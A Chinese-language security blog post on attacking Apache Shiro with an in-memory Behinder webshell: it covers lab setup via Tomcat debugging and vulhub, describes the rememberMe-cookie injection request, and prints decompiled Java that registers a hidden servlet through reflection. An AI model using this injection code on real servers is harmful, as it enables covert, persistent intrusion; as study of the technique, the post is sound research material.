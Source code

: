 ```yaml
---
layout: about
category: about
Researchname:  基于内存的Shiro框架Webshell攻击研究
toc: true
author: Bin4xin
wrench: 2021-11-19
permalink: /about/Research-on-Webshell-Attack-of-Shiro-Framework-Based-on-Memory/
desc: 「其他研究」
---
```


# 基于内存的Shiro框架Webshell攻击研究

- ✅Shiro框架部署
    * IDEA tomcat调试部署
    * docker compose
- ✅Shiro框架攻击
    * 手动poc
    * 工具poc
- ✅基于tomcat的通用回显
    * tomcat冰蝎内存马
        * 利用原理
        * 攻击测试
- ✅给👴连！


## 零：Shiro框架部署
现如今部署一个靶场的方法有很多，取决于个人喜好和需求；我结合个人能力做出了一些总结：

{: .table}
| 特点\部署办法 | docker-compose | IDEA tomcat调试部署 | Docker+IDEA | 
| :--- | :--- | :--- | :--- |
| 快捷程度 | 几条命令快捷部署 | 需开放调试端口+tomcat war包(如无则需源码构建) | 你懂的 | 
| 能否调试 | ❎ | ✅ | ✅ |
| 自定义靶场（如页面） | ❎ | ✅ | ✅ | 

#### # 0x01：IDEA tomcat调试部署
本篇文章会侧重描述如何进行针对IDEA的tomcat调试部署；

- 克隆源码
  * 以shiro-721为例：
    ```
    git clone https://github.com/apache/shiro.git
    cd shiro
    git checkout shiro-root-1.4.1
    mvn install
    cd samples/web
    mvn install
    ```
  * 找到`{path-to-shiro}/samples/web/target`目录下的war包复制到tomcat webapps目录下：
    ```
    $ tree
    target
    ··
    │   ├── index.jsp
    │   ├── login.jsp
    │   ├── logout.jsp
    │   └── style.css
    ├── samples-web-1.4.1.war
    
    $ cp samples/web/target/samples-web-1.4.1.war {path-to-tomcat}/webapps/
    ```
- 开放tomcat调试端口：
    * 找到`bin/catalina.sh`文件中的`JAVA_OPTS`（会有多个），修改如下：
    ```
      JAVA_OPTS="$JAVA_OPTS $JSSE_OPTS"
      
      # Register custom URL handlers
      # Do this here so custom URL handles (specifically 'war:...') can be used in the security policy
      JAVA_OPTS="$JAVA_OPTS -Djava.protocol.handler.pkgs=org.apache.catalina.webresources"
      CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y"
      #上面的CATALINA_OPTS为新增；address为调试端口，可自行更改。
    ```
    * `bin/startup.sh`启动，看到以下日志打印则开放调试成功：
    ```
      $ tail -f logs/catalina.out
      Listening for transport dt_socket at address: 5555
      10-Mar-2021 09:51:16.763 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log Server.服务器版本: Apache Tomcat/8.5.57
      ···
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xdebug
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y
    ```
- IDEA+tomcat调试：
    * IDEA配置（添加server时为`Tomcat Server`->`Remote`）：
    ![idea-tomcat-conf.png](https://i.loli.net/2021/11/18/lzFJ2uNZPagBfn6.png)
    * 如下图，加上`home.jsp`断点后进行http请求，可以看到IDEA中返回的frames详情；
    ![remote-debug-pic.png](https://i.loli.net/2021/11/18/6WGlumFBdDwstVY.png)
    
这样基本上一个基本的IDEA+tomcat的调试配置过程基本就完成了，当然，这只是调试前的准备工作，大家多练习几次，基本上就能够熟练掌握；而最重要的以及最难的其实是调试阶段，
调试过程中的一些技巧和能力是在一次次的实践中沉淀下来的，在这里仅仅当作抛砖引玉，不做赘述。

#### # 0x02：docker compose部署

- 准备工作
    * 根据不同操作系统下载安装docker；
    * 安装`python->pip->docker-compose`，教程自行搜索:)
- 下载靶场
    * vulhub based on docker：
    ```
      $ git clone https://github.com/vulhub/vulhub.git
      $ cd vulhub/shiro/CVE-2016-4437/
      $ docker-compose up -d
    ```
等待启动即可。

## 一：Shiro框架攻击
poc代码生成攻击cookie可以参考之前的文章：
#### 1x01：手动poc
[分享：Different Shiro Framework deserialization analysis ideas#how to poc](/about/ShiroDeser/#2x03how-to-poc){:target="_blank"}
#### 1x02：工具poc
[分享：Different Shiro Framework deserialization analysis ideas#验证](/about/ShiroDeser/#%E4%BA%8C%E9%AA%8C%E8%AF%81){:target="_blank"}

## 二：基于tomcat的通用回显之冰蝎内存马
这一小节由于个人水平有限，不能像各位师傅一样从tomcat servlet等层面一探究竟，我尽量使用简洁的语言写出我的理解；
#### # 2x01：攻击测试
工具直接选择"冰蝎2_Tomcat"，执行注入；
- http发包请求如下：
![behinder-post-request.png](https://i.loli.net/2021/11/18/tUJATRsNyZQFWX4.png)
我们可以看到HTTP请求为POST请求`p`&`path`&`dy`数据；同时header中加入了`rememberMe Cookie`；

- 分析：
Cookie是作为反序列化的入口，`dy`参数应该是写入内存的命令

同时最后返回`dynamic inject success`；

- 注入成功效果：
![webshell-mem-display.png](https://i.loli.net/2021/11/18/jKPIn8YHdTsW9LS.png)

#### # 2x02：利用原理
我们把利用工具的jar包扔进反编译软件定位到`BehOldDemoServlert.class`，我们来看看代码是怎么工作的：
```java
  public void dynamicAddServlet(ServletContext servletContext) throws Exception {
    Method method;
    String wrapperName = this.path;
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade)servletContext;
    Field applicationContextField = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext)applicationContextField.get(applicationContextFacade);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext)standardContextField.get(applicationContext);
    Object newWrapper = invoke(standardContext, "createWrapper", (Object[])null);
    invoke(newWrapper, "setName", new Object[] { wrapperName });
    setFieldValue(newWrapper, "instance", this);
    Class<?> containerClass = Class.forName("org.apache.catalina.Container", false, standardContext.getClass().getClassLoader());
    Object oldWrapper = invoke(standardContext, "findChild", new Object[] { wrapperName });
    if (oldWrapper != null)
      standardContext.getClass().getDeclaredMethod("removeChild", new Class[] { containerClass }); 
    standardContext.getClass().getDeclaredMethod("addChild", new Class[] { containerClass }).invoke(standardContext, new Object[] { newWrapper });
    try {
      method = standardContext.getClass().getMethod("addServletMappingDecoded", new Class[] { String.class, String.class });
    } catch (Exception var9) {
      method = standardContext.getClass().getMethod("addServletMapping", new Class[] { String.class, String.class });
    } 
    method.invoke(standardContext, new Object[] { this.path, wrapperName });
    init((ServletConfig)getFieldValue(newWrapper, "facade"));
  }
```
